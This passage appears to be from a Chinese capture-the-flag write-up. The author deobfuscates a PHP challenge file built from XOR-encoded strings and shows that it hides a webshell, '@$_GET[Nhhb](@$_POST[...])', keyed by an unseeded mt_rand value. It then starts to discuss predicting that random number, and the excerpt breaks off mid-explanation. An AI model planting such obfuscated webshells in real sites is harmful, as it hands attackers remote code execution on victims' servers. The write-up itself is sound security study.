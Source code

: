 看到几个被混淆了的变量的值

直接尝试复制粘贴到本地，然后 echo 一下

```bash
<?php
header("content-type:text/html;charset=utf-8");
#show_source('au2c7ts62gs1ush13.php');
$__=("`"^"?").(":"^"}").("%"^"`").("{"^"/");
$___=("$"^"{").("~"^".").("/"^"`").("-"^"~").("("^"|");
$____=("t"^":").(":"^"R").(":"^"R").("X"^":");
$x=mt_rand(2012,2022);
$y=mt_rand(1997,2024);
echo $__ . "<br />";
echo $___ . "<br />";
echo $____ . "<br />";
$_____=($x*$y);
echo $_____;
@${$__}[$____](@${$___}[$_____]);
// @$_GET[Nhhb](@$_POST[$_____]);
#flag{} into flag.php
?>
```

打印出来的结果

[![](assets/1705974553-23e42b958470ad22b4933b19b98a122d.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240121201411-95afefc6-b856-1.png)

所以以下代码实际上是这个样子的

```bash
@$_GET[Nhhb](@$_POST[$_____]);
```

这就是一个 Webshell，但其中 $\_\_\_\_\_ 是随机数来的

我们没办法直接确定...这时候可以再看下代码

生成随机数的函数是 mt\_rand，但没指定 mt\_srand

这时候我就在想会不会是在考核伪随机数的不安全性的利用

因为对这块了解的比较少，所以这时候我好好地去百度了下

大体上是说：
